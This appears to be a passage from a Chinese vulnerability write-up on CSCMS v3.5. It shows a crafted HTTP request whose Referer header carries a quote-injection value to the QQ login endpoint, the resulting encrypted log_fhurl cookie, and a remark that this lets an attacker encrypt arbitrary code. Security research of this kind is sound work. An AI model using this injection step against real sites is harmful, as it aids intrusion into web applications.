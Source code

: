 我们提交如下，看一下，程序加密后的字符。

```php
GET /cscms_v3.5_utf8/index.php/open/login/qq HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: xxoo' 
```

![](img/221535358221a993c7c33c8dda02005985399df2.jpg)

可以看到加密后的字符：log_fhurl=L8kxDzdqKNy9%2F2Qs0g

利用这个功能，加密我们想要的任意代码。
